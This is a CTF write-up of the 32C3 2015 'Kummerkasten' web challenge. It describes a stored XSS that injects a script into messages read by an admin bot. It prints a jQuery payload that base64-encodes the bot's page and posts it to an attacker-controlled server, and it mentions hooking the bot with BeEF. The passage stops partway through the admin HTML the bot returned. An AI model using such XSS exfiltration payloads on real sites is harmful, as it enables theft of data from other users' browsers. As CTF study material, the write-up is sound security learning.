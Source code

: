 32C3 CTF 2015 : Kummerkasten
Category: Web Points: 300 Solves: 61 Description:

Our Admin is a little sad this time of the year. Maybe you can cheer him up at this site http://136.243.194.46/

Please note: This challenge does not follow the flag format.

Hints:

To build the flag, concatenate both parts and omit '32C3_'

Write-up
by 0xBADCA7

Strangely, this 32c3 CTF task weighted 300 points (while ITD was "only" 150) however it was a simple straightforward XSS. You're given a page like this: 

Your team is nearly arbitrary (just a basic filter) and the injectable field is the message itself. It is possible to inject <script src="yourstuff.js"></script> right away. Clearly, there's a bot reading all the messages so the first thing right off the bat I did was to hook in BeEF. The bot appeared in the logs shortly and then disconnected. I wasn't really disappointed as the original page already contained jQuery code so coding payloads would be a cakewalk.

First I dumped the current page the bot was seeing:

$.post('http://myserver', {'a': btoa($('body')[0].innerHTML)})
The bot returned this:

<script src="js/jquery-2.1.4.min.js"></script>
<script src="js/bootstrap.min.js"></script>
<script src="js/admin.js"></script>

    <nav class="navbar navbar-inverse">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="/admin/comments">Admin</a>
        </div>
        <div id="navbar" c
